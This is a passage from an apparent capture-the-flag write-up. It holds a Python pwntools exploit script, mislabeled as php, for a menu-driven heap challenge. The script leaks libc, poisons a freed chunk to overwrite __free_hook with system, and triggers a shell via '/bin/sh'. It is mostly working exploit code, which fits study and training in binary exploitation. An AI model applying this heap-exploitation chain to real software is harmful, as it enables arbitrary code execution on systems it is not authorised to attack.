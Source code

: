 ```php
    sl(str(index))
    ru("the size is:\n")
    sl(str(size))
    ru("Content:\n")
    sl(content)

def show(index):
    menu(4)
    ru("index:\n")
    sl(str(index))

# attach(p)#,'b *$rebase(0x0000000000000A8B)')
sla("Your name is:",str("Epiphany"))
#--leak
add(0x10)
for j in range(25):
    add(0x20-1)

add(0x10) #26
payload =  'a'*0x10+p64(0)+p64(0x4b1)
edit(0,len(payload),payload)
free(1)

show(1)
offset = libc.sym['__malloc_hook'] +0x10 + 96
libc_base = leak(offset)

free_hook = libc.sym['__free_hook'] + libc_base
system = libc.sym['system'] + libc_base

free(26)
# free(3)
#num = 27
payload = p64(free_hook)
edit(26,len(payload),payload)

add(0x10) #25
pause()
add(0x10) #26
payload = p64(system)
edit(26,len(payload),payload) 
pause()
edit(9,len('/bin/sh\x00'),"/bin/sh\x00")
pause()
free(9)
it()
```

pwn6 unlink
-----------
